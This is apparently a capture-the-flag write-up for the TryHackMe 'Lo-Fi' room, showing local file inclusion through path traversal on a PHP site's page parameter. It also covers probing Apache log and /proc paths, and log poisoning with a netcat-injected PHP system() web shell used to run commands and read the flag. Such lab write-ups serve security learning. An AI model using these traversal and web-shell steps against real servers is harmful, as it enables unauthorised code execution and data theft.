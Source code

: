 # Lo-Fi

https://tryhackme.com/r/room/lofi

**Want to hear some lo-fi beats, to relax or study to? We've got you covered!**

## Overview

The challenge asks you to analyse a website and highlight, find the flag in the root directory.
In the description of the task, the author mentions two other LFI/RFI rooms.
There is only one task in the challenge

### Task 1

Climb the filesystem to find the flag!

The website is a php based solution where youtube videos linked in iframes are displayed.

#### Step 1 - Enumeration

Two parameters can be modified on the home page

http://10.10.83.116/?search=

http://10.10.83.116/?page=

search parameter not vulnerable

page parameter is better we can use file extraction

#### Step 2 - Find LFI

As a first step, let's look at the following methods

http://10.10.83.116/?page=/etc/passwd

The answer in this case is not yet positive: "HACKKERRR!! HACKER DETECTED. STOP HACKING YOU STINKIN HACKER!"

Ok, testing with full uri: http://10.10.83.116/?page=../../../../../../../../etc/passwd

![passwd file is ok](passwd.png)

#### Step 3 - Log poisoning 

How can we find the file if there is no hint at the beginning of the challenge?

First of all, we test the system for log poisoning vulnerability.

We know from the response header it is a Apache/2.2.22 (Ubuntu) server. So check these:

/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd-error.log
/var/log/httpd-access.log
/var/log/httpd/access_log
/var/log/auth.log

They don't work, but the proc file system may still help.

Request: http://10.10.83.116/?page=../../../../../../../../proc/self/cmdline - Actual process name

Answer: /usr/sbin/apache2-DFOREGROUND

Check file descriptors under proc. 

Request: http://10.10.83.116/?page=../../../../../../../../proc/self/fd/6

Answer: 

![apache log file](fd_1.png)

We can use it for RCE. 

poison the server with netcat:
``` 
nc 10.10.83.116 80
GET /<?php system($_GET['c']); ?>

HTTP/1.1 404 Not Found
Date: Sat, 25 Jan 2025 16:44:56 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 278
Connection: close
Content-Type: text/html; charset=iso-8859-1
```
#### Step 4 - Finding the flag 

Where is flag? 
http://10.10.83.116/?page=../../../../../../../../proc/self/fd/6&c=find%20/%20-name%20%22flag.txt%22%202%3E/dev/null

Answer:  "/flag.txt " 400 507 

We can look at the contents of the flag using the error that was originally exploited.
http://10.10.83.116/?page=../../../../../../../flag.txt


The takeaway from the writeup is that even if there is no hint, it is still possible to get the file out of the system.

